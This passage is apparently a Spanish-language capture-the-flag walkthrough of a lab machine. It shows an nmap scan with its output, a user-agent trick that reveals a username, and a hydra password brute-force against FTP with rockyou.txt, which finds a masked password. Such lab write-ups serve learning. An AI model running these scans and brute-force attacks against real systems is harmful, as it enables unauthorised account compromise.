 El escaneo nos reporta tres puertos abiertos, el 21, el 22 y el 80, así como el servicio que corre en cada uno de ellos.

Ananalizamos la versión y servicio de estos puertos mediante nmap para sacar más información:

```bash
> nmap -p21,22,80 -sCV -Pn -n 10.10.11.79
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
```

# []($header-1)Acceso al sistema

Acccedemos mediante el navegador web a la IP-VICTIMA porque el puerto 80 está abierto y nos muestra el siguiente mensaje:

> Dear agents, Use your own codename as user-agent to access the site. From, Agent R 

Si inspeccionamos la página nos reporta que tenemos que cambiar el user-agent a C para acceder al sitio.

Mediante el pluggin user agent switch podemos introducir C en el apartado de user agent y al refrescar la página nos reporta otra información:

> Attention chris, Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! From, Agent R

-Esto lo podríamos haber hecho con BurpSuite-

Obtenemos un potencial usuario del que sabemos que tiene una contraseña floja. Por ello, intentamos con hydra conectarnos mediante ftp al usuario chris para ver si nos consigue reportar alguna contraseña:

```bash
❯ hydra -l chris -P /home/jorge/Descargas/rockyou.txt ftp://10.10.11.79
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-26 14:16:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking ftp://10.10.11.79:21/
[21][ftp] host: 10.10.11.79   login: chris   password: ???????
[STATUS] 14344401.00 tries/min, 14344401 tries in 00:01h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-26 14:17:26

```
